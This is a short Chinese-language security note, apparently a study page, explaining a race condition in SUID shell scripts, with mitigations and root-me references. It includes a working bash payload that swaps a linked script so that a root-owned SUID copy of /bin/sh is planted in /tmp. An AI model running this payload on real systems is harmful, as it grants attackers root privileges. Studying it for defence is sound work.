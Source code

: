 1.系统打开一个新shell

2.新shell读取脚本的内容并执行.

如果时间点卡得刚刚好,那么攻击者可以先创建一个链接,在执行改链接文件的瞬间替换它的内容,从而实现通过SUID所有者权限执行任意内容

payload:

```bash
./rootme & rm rootme && \
echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh" \
 >> rootme
```

### 	修复:

#### 		尽量少调用外部函数

#### 		最小特权原则

## 参考

[EN - SUID Privileged Programs.pdf](http://repository.root-me.org/Administration/Unix/EN%20-%20SUID%20Privileged%20Programs.pdf)

[EN - Dangers of SUID Shell Scripts.pdf](http://repository.root-me.org/Administration/Unix/EN%20-%20Dangers%20of%20SUID%20Shell%20Scripts.pdf)

